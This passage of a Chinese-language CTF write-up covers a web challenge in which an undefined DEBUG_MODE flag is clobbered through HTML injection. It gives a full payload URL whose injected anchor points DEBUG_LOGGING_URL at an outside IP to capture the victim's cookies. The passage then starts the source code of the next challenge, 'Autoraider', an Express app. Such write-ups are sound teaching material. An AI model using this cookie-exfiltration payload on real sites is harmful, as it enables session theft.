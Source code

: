 ```
```

这里有一个DEBUG_MODE 参数未定义，if的操作经过翻译会发起一个携带cookie的请求，如果我们可控 DEBUG_LOGGING_URL 就可以将cookie发送到我们的vps上

![image-20220329182534181](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329182534181.png)

利用前面那个html的注入地方来定义 DEBUG_MODE 与 DEBUG_LOGGING_URL  这样就完全可控

payload

```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=http://google.com/a.png"><a id="DEBUG_MODE"><a id="DEBUG_LOGGING_URL" href="http://1.116.110.61:4000/">
```

这里有个问题，确实可以返回cookie，但是传的是https，可以弄个https服务器，不晓得有没有其平台的之类的更方便的接受

![image-20220329191335796](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329191335796.png)



![image-20220329191359560](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329191359560.png)



# Autoraider

My EECS 982 project is due tonight, and I haven't started it! Can you help me out?

```js
const express = require('express');
const session = require('express-session');

const multer = require('multer');
const bodyParser = require('body-parser');
const upload = multer();

const redis = require('redis');

const {VM} = require('vm2');

const SESSION_SECRET = process.env.REDIS_SECRET || 'secret';
const FLAG = process.env.FLAG || 'wsc{dummy}';

const NUM_QUESTIONS = 30;

var app = express()

let sessionOptions = {
    secret: SESSION_SECRET,
    resave: false,
    saveUninitialized: true
}

// ------ For running the challenge in Google Cloud with Redis session storage -----
// Ignore this if running locally
if(process.env.REDIS_IP) {
    var RedisStore = require('connect-redis')(session)
    const client = redis.createClient({
      "host": process.env.REDIS_IP
    });
    client.on('connect', () => console.log('Connected to Redis!'));
    client.on("error", (error) => console.error('Redis Error: ', error));
    sessionOptions['store'] = new RedisStore({ client: client });
}
// ----------------------------------------------------------------------------------

```